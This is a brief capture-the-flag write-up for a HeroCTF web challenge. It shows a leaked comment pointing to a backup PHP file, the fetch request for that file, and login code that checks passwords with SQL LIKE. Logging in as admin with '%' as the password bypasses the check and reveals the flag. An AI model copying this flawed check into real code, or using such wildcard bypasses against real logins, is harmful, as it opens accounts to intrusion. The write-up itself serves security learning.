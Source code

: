 
In index page a comment leaked a supposed to be committed file.

```html
 <!-- Hello dev, do not forget to remove login.php.bak before committing your code. -->
```

Request the path.

```bash
http -v http://chall1.heroctf.fr:8080/login.php.bak
```

It's using *LIKE* for password checking, ha..

```php
<?php

require_once(__DIR__  . "/config.php");

if (isset($_POST['username']) && isset($_POST['password'])) {
    $username = $_POST['username'];
    $password = $_POST['password'];

    $sql = "SELECT * FROM users WHERE username = :username AND password LIKE :password;";
    $sth = $db->prepare($sql, array(PDO::ATTR_CURSOR => PDO::CURSOR_FWDONLY));
    $sth->execute(array(':username' => $username, ':password' => $password));
    $users = $sth->fetchAll();

    if (count($users) === 1) {
        $msg = 'Welcome back admin ! Here is your flag : ' . FLAG;
    } else {
        $msg = 'Wrong username or password.';
    }
}
```

Loged in with username *admin* and password *%*, the flag was easily get.

```html
Welcome back admin ! Here is your flag : Hero{pwnQL_b4sic_0ne_129835}
```

